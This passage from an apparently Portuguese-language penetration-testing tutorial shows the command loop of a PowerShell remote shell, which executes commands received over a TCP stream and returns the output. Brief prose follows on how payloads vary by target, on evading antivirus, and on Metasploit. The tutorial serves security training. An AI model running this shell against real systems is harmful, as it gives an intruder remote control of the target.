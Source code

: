 ```powershell

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

## Cargas úteis assumem formas e formulários diferentes

Compreender o que diferentes tipos de cargas úteis estão fazendo pode nos ajudar a entender por que o AV está nos impedindo de executar e nos dá uma ideia do que precisamos mudar em nosso código para restrições de desvio. Isso é algo que exploraremos mais neste módulo. Por enquanto, entenda que as cargas úteis que usamos para obter um shell em um sistema serão determinadas em grande parte pelo sistema operacional, linguagens de intérpretes de shell, e até linguagens de programação estão presentes no alvo.

Nem todas as cargas úteis são one-liners e implantadas manualmente como as que estudamos nesta seção. Alguns são gerados usando estruturas de ataque automatizadas e implantados como um ataque pré-embalado / automatizado para obter um shell. Como nos muito poderosos `Metasploit-framework`.